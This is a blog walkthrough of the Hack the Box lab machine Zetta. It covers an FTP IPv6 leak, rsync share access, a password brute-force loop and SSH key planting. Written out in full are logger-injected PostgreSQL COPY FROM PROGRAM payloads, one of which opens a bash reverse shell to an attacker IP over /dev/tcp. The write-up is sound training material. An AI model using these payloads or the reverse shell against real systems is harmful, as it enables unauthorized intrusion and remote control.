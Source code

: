 +++
author = "Nick"
categories = ["hack the box", "ftp", "ipv6", "RFC2428", "rsync", "ssh", "reverse shell", "psql", "postgress", "brute force", "RCE"]
date = 2020-02-22T11:00:00Z
description = ""
draft = false
thumbnail = "/images/2019/10/zetta.png"
slug = "hack-the-box-zetta"
summary = "Welcome back! Today we are going to do the box Zetta. Lets dig i"
tags = ["hack the box", "ftp", "ipv6", "RFC2428", "rsync", "ssh", "reverse shell", "psql", "postgress", "brute force", "RCE"]
title = "Hack the Box - Zetta"
url = "/hack-the-box-zetta"

+++


Welcome back! Today we are going to do the box Zetta. Lets dig in!

As always, we start with an ```nmap``` scan: ```nmap -sC -sV -oA zetta_initial_scan 10.10.10.156```. We get a small set of results.

```
Nmap scan report for 10.10.10.156
Host is up (0.052s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Pure-FTPd
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:82:60:c1:8c:8d:39:d2:fc:8b:99:5c:a2:47:f0:b0 (RSA)
|   256 1f:1b:0e:9a:91:b1:10:5f:75:20:9b:a0:8e:fd:e4:c1 (ECDSA)
|_  256 b5:0c:a1:2c:1c:71:dd:88:a4:28:e0:89:c9:a3:a0:ab (ED25519)
80/tcp open  http    nginx
|_http-title: Ze::a Share
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We repeat the scan but this time with all ports. The same results come back. So let's see what is being hosted on port 80.

![](/images/2019/10/image-66.png)

We have some type of sharing service. While looking through the source code we spot a string variable.

![](/images/2019/10/image-67.png)

This generates our username and password for the sharing site. We can use this to connect via ```FTP```. You seemingly can use any 32 length character and access the ```FTP``` site as long as the username and password match.

We connect to the ```FTP``` service and are pretty much unable to do anything.

![](/images/2019/10/image-68.png)

We do see that the server supports [RFC2428](https://tools.ietf.org/html/rfc2428). Which means that there could be some IPv6 trickery afoot. So the first thing we will do is to connect to the ```FTP``` service via ```netcat```. This way we can issue the ```EPRT``` commands. We will also setup a ```netcat``` listener on our machine and use the ```-6``` flag to enable IPv6 listening.

![](/images/2019/10/image-69.png)

After we've connected to the service, we will then attempt to download a dummy file called '1' from the server. If all goes well, we should see the above. A retrun connection leaking the machines IPv6 address.

![](/images/2019/10/image-70.png)

The breakdown of the ```EPRT``` command is:
```EPRT``` is using the protocol.
```|2|``` signifies use of IPv6.
```dead:beef:2::10ab``` is our IPv6 address.
```|5555|``` is the port we are telling ```EPRT``` to open a data connection to. Which also happens to be where our ```netcat``` is listening.

We do see the connection made and the machines IPv6 address leaked to us. With this info we can rescan the machine with ```nmap``` but specify IPv6 scan. We use ```nmap -p- -6 dead:beef::250:56ff:febd:923b```. We see one additional port open, port ```8730```.

![](/images/2019/10/image-71.png)



When we connect to the port we see that it is an Rsync server.

![](/images/2019/10/image-72.png)

Now that we know it's an accessable rsync server. We'll try and list the available shares. Use the ```--list-only``` flag for ```rsync```. After a few tries and failures, it seems we need to add this IPv6 address to our hosts list.

![](/images/2019/10/image-73.png)

After we add the IP to our Hosts file, we get back some listings. This looks like the root of a Linux file system. We try to 'sync' to each location shown and get an error. Since it resembled a file system, I tried to access tmp as well as etc. And we could read the content of the etc directory. So we'll sync the content of that file back and see what might be in it.

After sifting through the files. I came across an interesting section in the ```rsyncd.conf``` file.

![](/images/2019/10/image-74.png)

We see that this is also a hidden share. The share requires a username of Roy and a password. We'll have to write a quick script to automate this processes since the built in nmap rsync brute didn't work. There are multiple ways to approach this. I chose to make a small loop around ```rockyou.txt``` and pass it to ```sshpass``` to make the connection. It probably could have been a bit prettier doing it in ```python``` but this was functional. After letting that itterate through, we finally get a password.

Now we can add our ```SSH``` key to the ```authorized_keys file``` and sync it back to the server. We use: ```rsync -av ~/Documents/htb/zetta/rsync/roy_home rsync://roy@zetta6.htb:8730/home_roy```.

![](/images/2019/10/image-75.png)

Looks like our upload took. Lets see if we can SSH.

![](/images/2019/10/image-76.png)

We are, we can snag our user.txt if you haven't already gotten it from a previous rsync ;).

We can now start internal enumeration. We would normally get started with ```LinEnum``` and ```pspy64``` to see if there are any low hanging fruit. However, we don't have immediate access to ```curl```, ```wget``` and remote use of ```scp``` is requiring a password. So with no quick and easy mass enumeration, we do it manually. When we are looking through files, the ```.tudu.xml``` file holds some hints. We see that the postgress database running needs to be checked. We see format for the shared password scheme. We also see that a syslog database is suppose to push events to the postgress database. With these things in mind, we start to look at them one at a time.

We try to take a peek at the ```pgsql.conf``` file located in ```/etc/rsyslog.d```. Permission denied. We do however see that there is a ```.Git``` directory. With some luck we can clone the repo and see the config file.

![](/images/2019/10/image-77.png)

We go to read the file and immediately see a password string:

![](/images/2019/10/image-78.png)

We will try to connect to the database using those.

![](/images/2019/10/image-79.png)

No such luck. Doing some research about local7 logging lead me to [this RCE](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5#targetText=Authenticated%20Arbitrary%20Command%20Execution%20on%20PostgreSQL%209.3%20%3E%20Latest&targetText=PostgreSQL%2C%20commonly%20known%20as%20Postgres,Linux%20and%20Windows%20versions%20available.). It seems we can interact with the logger using the ```logger``` command. In conjunction with the above RCE we can use this to leverage the system for a shell. The steps we'll take are create a file made by the service, change the permissions of the file, inject a reverse shell and have it call back to us as the service account.

The file need to be in a writable place, so ```tmp``` it is. We create a file called ```shell```. In this file we will place the commands we the logger to execute. First we'll have the logger print the contents of the home directory to a file called ```hi```:

```logger -p local7.info "',now());CREATE table if not exists test(t TEXT);COPY test(t) from program $$whoami > /tmp/hi; $$;-- -"```

Then we can call the ```shell``` file by doing this:

```logger -p local7.info "$(cat shell.file)"```

![](/images/2019/10/image-99.png)

It worked. So now we can create a reverse shell the same way.

```logger -p local7.info "',now());CREATE table if not exists test(t TEXT);COPY test(t) from program $$bash -i >& /dev/tcp/10.10.15.236/4444 0>&1 > /tmp/hi; $$;-- -"```

We then need to have psql change the permissions on the file:

```logger -p local7.info "',now());CREATE table if not exists test(t TEXT);COPY test(t) from program $$chmod 777 /tmp/hi; $$;-- -"```

The first time I tried this I wasn't able to get a shell back due to permissions. Once we execute them all we get a shell back.

![](/images/2019/10/image-96.png)

Now that we have a shell ps postgres. We start to enumerate again. During my enumeration I checked for the location of the ```.psql_history``` file and parsed through it. It was a pretty short file:

![](/images/2019/10/image-97.png)

Now if we try this password it doesn't work. However if we recall back to our ```tudu.xml``` file we have that shared password scheme. So with some luck the format of ```secret``` @ ```userid``` is still in place and the password hasn't been changed. We can ```su``` to root using this knowledge. Sure enough it does!

![](/images/2019/10/image-98.png)

At first I thought my session was hanging but I forgot it was a remote shell and it wouldn't give me verification back when I switch users. There we have it, the root flag!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

